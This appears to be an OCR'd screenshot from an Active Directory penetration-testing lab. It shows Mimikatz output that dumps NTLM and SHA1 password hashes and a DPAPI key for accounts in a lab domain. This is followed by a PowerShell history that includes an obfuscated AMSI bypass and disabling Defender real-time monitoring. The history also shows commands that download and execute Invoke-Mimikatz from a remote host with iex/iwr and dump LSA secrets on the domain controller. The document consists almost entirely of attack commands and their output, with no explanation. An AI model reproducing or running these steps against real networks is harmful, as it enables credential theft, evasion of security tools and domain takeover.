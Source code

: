 Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:23 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * NTLM     : 5e77978a734e3a7f3895fb0fdbda3b96
         * SHA1     : e9f3e1343aff21e696b7b7ecc72286aa451c067f
        tspkg :
        wdigest :
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 21719 (00000000:000054d7)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:22 AM
SID               :
        msv :
         [00000003] Primary
         * Username : DCORP-ADMINSRV$
         * Domain   : dcorp
         * NTLM     : 5e77978a734e3a7f3895fb0fdbda3b96
         * SHA1     : e9f3e1343aff21e696b7b7ecc72286aa451c067f
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 66422 (00000000:00010376)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/26/2020 8:41:26 AM
SID               : S-1-5-21-1874506631-3219952063-538504511-1113
        msv :
         [00000003] Primary
         * Username : websvc
         * Domain   : dcorp
         * NTLM     : cc098f204c5887eaa8253e7c2749156f
         * SHA1     : 36f2455c767ac9945fdc7cd276479a6a011e154b
         * DPAPI    : 65e0a67c32db3788515ff56e9348e99c
        tspkg :
        wdigest :
         * Username : websvc
         * Domain   : dcorp
         * Password : (null)
        kerberos :

[dcorp-adminsrv]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]
[dcorp-adminsrv]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollecti
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> . .\Invoke-Mimikatz.ps1
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> powershell -ep bypass
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') +
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-mgmt.dollarcorp.moneycorp.local]: PS C:\Users\ciadmin\Documents> Invoke-Mimikatz
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents>  Invoke-Mimikatz -Command '"lsadump::lsa /patch"'